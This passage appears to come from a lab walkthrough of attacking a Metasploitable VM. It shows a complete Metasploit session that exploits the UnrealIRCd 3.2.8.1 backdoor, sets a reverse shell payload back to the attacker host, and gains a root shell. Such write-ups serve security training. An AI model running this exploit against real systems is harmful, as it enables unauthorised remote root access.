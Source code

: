 ``` plain
```

{% img center /images/vnc.png 'vnc shell' 'vnc' %}

And we have another root shell.


### Port 6667 irc

An exploit is available for this:

**UnrealIRCD 3.2.8.1 Backdoor Command Execution**

> This module exploits a malicious backdoor that was added to the Unreal IRCD 3.2.8.1 download archive. This backdoor was present in the Unreal3.2.8.1.tar.gz 
> archive between November 2009 and June 12th 2010.

``` plain
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > show options

Module options (exploit/unix/irc/unreal_ircd_3281_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  6667             yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse 
payload => cmd/unix/reverse
msf exploit(unreal_ircd_3281_backdoor) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(unreal_ircd_3281_backdoor) > exploit

[*] Started reverse double handler
[*] Connected to 192.168.127.154:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo qcHh6jsH8rZghWdi;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "qcHh6jsH8rZghWdi\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (192.168.127.159:4444 -> 192.168.127.154:41975) at 2014-06-06 23:31:44 +0300

whoami
root
```
